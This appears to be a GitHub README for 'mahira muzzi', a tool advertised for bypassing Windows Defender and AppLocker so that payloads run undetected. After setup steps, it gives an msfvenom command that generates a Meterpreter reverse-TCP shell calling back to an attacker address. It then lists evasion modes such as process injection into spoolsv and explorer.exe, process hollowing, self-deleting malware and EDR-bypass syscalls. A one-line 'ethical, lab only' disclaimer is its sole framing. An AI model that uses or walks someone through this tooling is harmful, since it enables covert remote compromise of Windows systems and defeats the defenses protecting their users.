 About mahira muzzi 


**MAhira muzzi** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.





---


# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**

after git clone 
do it in the direcotory where you have installed the tool 


# **IMPORTANT**--------------------
dont forget to use pyhtons virtual enviroment or else tool will not run 

MAke virtualpython enviorment 
use these commands  python -m venv myenv      then       source myenv/bin/activate  

after using the tool  use this command "deactivate" to come out of the virtual env 

pip install -r requirements.txt
sudo apt-get update
sudo apt-get install -y mingw-w64
sudo apt install mono-complete
mkdir masm
wget -O masm/uasm_linux64.zip https://www.terraspace.co.uk/uasm257_linux64.zip
unzip masm/uasm_linux64.zip -d masm
chmod +x masm/uasm*
sudo cp masm/uasm /usr/bin/uasm
```

### **Option 2: Scripted Installation (Recommended)**

Also you need to be in virtual enviorment using the commands told in the first option to be able to compile it automatically
If you prefer an automated setup, use the provided script:

```bash
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make a paylod using msfvenom only make a raw payload nothing else will work

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin

give the name of payload you made with msfvenom when you are prompted while using the tool /

            
                                                                                                                                                                    

                                                                                                                                                                     
                                                                                                                                                                     Functionalites of the tool 


You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>2                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected self-injection(AES)                                                                                                                                         
[*]Payload successfully created as mahira_AES.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


  
